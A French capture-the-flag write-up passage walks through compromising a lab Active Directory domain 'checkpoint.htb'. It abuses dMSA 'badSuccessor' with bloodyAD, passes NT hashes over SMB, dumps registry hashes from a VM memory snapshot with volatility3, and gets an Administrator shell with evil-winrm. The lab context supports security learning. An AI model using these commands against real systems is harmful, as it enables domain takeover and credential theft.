En revanche, on peut toujours tenter l'attaque sur le user `svc_deploy` et ainsi récupérer les privilèges du groupe `BackupAccess` pour peut-être accéder au share `VMBackups`.

C'est parti !

C'est encore l'éternel bloodyAD (trop puissant) qui va nous permettre de mener l'attaque à bien.

```zsh
bloodyAD --host "$DC_HOST"  -d "$DOMAIN" -u "$USER" -k add badSuccessor attackerDMSA -t "CN=svc_deploy,OU=ServiceAccounts,DC=checkpoint,DC=htb" --ou "OU=DMSAHolder,DC=checkpoint,DC=htb"
```

On récupère le TGT en `.ccache` puis on l'exporte. On check si 

tout roule avec `netexec` 

```zsh
nxc smb "$TARGET" -u "$USER" --use-kcache
```

```text
SMB         10.129.131.119  445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.131.119  445    DC01             [+] checkpoint.htb\attackerDMSA$ from ccache 
```

Malheureusement je n'ai pas réussi à utiliser `smbclientng` avec Kerberos. 

Mais en réalité, lors de l'exécution de la commande `bloodyAD`, l'output nous a aussi fourni le hash NT (valide pour se connecter via `svc_deploy`)

En effet :



En bas la clé RC4 dérivée du mot de passe du user n'est autre que le hash NT. Pour comprendre l'ensemble des clé dérivées d'un user dans un environnement AD, je vous recommande la ressource suivante :

- [The Hacker Recipes](https://www.thehacker.recipes)

Et plus particulièrement le schéma suivant .DGoYJB0B.png)


On peut donc se connecter grâce au hash NT via SMB pour récupérer le contenu des shares.

```zsh
smbclientng -d "$DOMAIN" -u 'svc_deploy' --hashes :"$NT_HASH" --host "$DC_IP"
```




On download le tout !

On se retrouve avec tous ces fichiers :



Le premier fichier que j'ai choisi de regarder c'est le fichier `Windows Server 2019-Snapshot1.vmem` simplement parce que sur une de mes dernières missions en entreprise j'ai beaucoup travaillé sur des dumps de mémoire RAM. Je sais donc comment obtenir des infos intéressantes !

Pour analyser ce fichier, on va utiliser `volatility3` (alias `vol3` pour moi) :

```zsh
vol3 -f Windows\ Server\ 2019-Snapshot1.vmem windows.info
```



Le plugin a bien fonctionné, on peut commencer par essayer de dump l'historique de cmd :

```zsh
vol3 -f Windows\ Server\ 2019-Snapshot1.vmem windows.cmdline
```

Rien d'intéressant.

C'est pas grave, on peut directement dump les hashs des users de la machine :

```zsh
vol3 -f Windows\ Server\ 2019-Snapshot1.vmem windows.registry.hashdump
```

```text
Volatility 3 Framework 2.28.0
Progress:  100.00		PDB scanning finished                        
User	rid	lmhash	nthash

Administrator	500	aad3b435b51404eeaad3b435b51404ee	f29e9c014295b9b32139b09a2790be3b
Guest	501	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount	503	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtilityAccount	504	aad3b435b51404eeaad3b435b51404ee	28f8d934dee90b2ec824351cb0844479
```

On récupère le hash de `Administrator`. On peut donc tester ce hash pour se connecter avec
 `evil-winrm.py`

```zsh
evil-winrm-py --ip "$DC_HOST" --user "$USER" --hash "$NT_HASH"
``` 

```text
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.5.0

[*] Connecting to 'DC01.checkpoint.htb:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents>
checkpoint\administrator
evil-winrm-py PS C:\Users\Administrator\Documents>
```
On peut récupérer le flag `root.txt`.



Le flag `root.txt` se trouve en réalité dans le `Desktop` de `max.palmer`, qui est `Domain Admins`.

Done !


